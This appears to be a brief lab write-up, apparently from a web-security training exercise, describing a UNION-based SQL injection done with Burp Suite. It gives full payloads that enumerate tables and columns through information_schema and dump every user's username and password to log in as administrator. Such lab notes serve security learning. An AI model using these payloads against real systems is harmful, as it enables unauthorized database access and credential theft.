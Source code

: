 ## SQL injection attack, listing the database contents on non-Oracle databases

In my previous, the step still same, just looking for some user name/password or user_.....

- In burpsuite, choose filter category. Example `Gifts`
- Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
  `' UNION SELECT 'abc', 'def'--`
- Use the following payload to retrieve the list of tables in the database:
  `' UNION SELECT table_name, NULL FROM information_schema.tables--`
- Find the name of the table containing user credentials.
- Use the following payload (replacing the table name: `users_abcdef`) to retrieve the details of the columns in the table:
  `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
- Find the names of the columns containing usernames and passwords.
- Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
  `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
- Find the password for the administrator user, and use it to log in.


## Problem solved
